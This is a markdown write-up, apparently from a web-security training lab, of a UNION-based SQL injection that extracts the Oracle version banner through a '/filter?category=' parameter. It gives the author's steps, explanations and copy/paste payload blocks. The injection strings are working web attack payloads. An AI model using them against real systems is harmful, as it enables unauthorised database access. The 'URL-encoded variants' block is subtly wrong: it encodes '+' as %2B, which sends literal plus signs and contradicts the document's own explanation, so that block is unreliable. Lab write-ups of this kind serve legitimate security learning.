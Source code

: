 # SQL injection attack, querying the database type and version on Oracle

A concise write-up using **my original steps** (verbatim) with small, accurate notes and payload blocks.

---

## 🥅 Goal
**Discover the Oracle database version** by extracting from `v$version`.

---

## ✅ My Exact Steps (Verbatim)

1. **GOAL: we need to discover the database version, we already know its oracle. which make the extraction query being: `SELECT BANNER FROM v$version`**

2. **Finding the vulnerable parameter: `/filter?category='` -> provide status 500 internal server error**

3. **fixing the bug: `/filter?category='--;`**

4. **We know the default table in oracle is "DUAL".**

5. **We need to make diff query, to combine to query's we'll be using UNION**

6. **payload: `/filter?category='+UNION+SELECT+NULL+FROM+DUAL--;` -> this gives status 500.**

7. **Checking to see if the database returning more than one column: `/filter?category='+UNION+SELECT+NULL,NULL+FROM+DUAL--;` -> gives 200**

8. **Trying to extract the banner: `/filter?category='+UNION+SELECT+BANNER,NULL+FROM+v$version--;`**

---

## 🧠 Minimal Additions (Why This Works)

- **Oracle basics**: `SELECT ... FROM DUAL` is required when selecting constants without a table. Views like `v$version` already have a table source, so you **do not** add `FROM DUAL` there.
- **UNION requirements**: The injected `UNION SELECT` must match the **number of columns** and their **types** returned by the original query.  
  - Step 6 (1 column) ⇒ **500 error** → column count/type mismatch.  
  - Step 7 (2 columns) ⇒ **200 OK** → now the **count matches**.
- **Text column alignment**: `BANNER` is a **text** column. Placing it in a position that the app renders (e.g., the first column if the front-end prints it) reveals the version string. A filler `NULL` keeps the column count aligned.
- **Comments**: `--` comments out the rest of the line. Ensure a **space** after it (often encoded as `+`) when needed. Your `--;` works in many labs; a robust variant is `--+`.
- **URL encoding**: `+` is interpreted as a space in query strings; use `%20` for an explicit space if the server treats `+` differently.

---

## 🔧 Payloads I Used (Copy/Paste)

**As entered (human-readable):**
```txt
/filter?category='
/filter?category='--;
/filter?category='+UNION+SELECT+NULL+FROM+DUAL--;
/filter?category='+UNION+SELECT+NULL,NULL+FROM+DUAL--;
/filter?category='+UNION+SELECT+BANNER,NULL+FROM+v$version--;
```

**URL-encoded variants (safe in raw requests):**
```txt
/filter?category=%27
/filter?category=%27--%2B
/filter?category=%27%2BUNION%2BSELECT%2BNULL%2BFROM%2BDUAL--%2B
/filter?category=%27%2BUNION%2BSELECT%2BNULL%2CNULL%2BFROM%2BDUAL--%2B
/filter?category=%27%2BUNION%2BSELECT%2BBANNER%2CNULL%2BFROM%2Bv%24version--%2B
```

> Tip: If the app expects the textual column in a different index, try swapping positions (e.g., `NULL,BANNER`) to surface output.

---

## 🏁 Result
- `BANNER` textual rows from `v$version` are returned via the vulnerable endpoint, revealing the **Oracle database version**. ✅
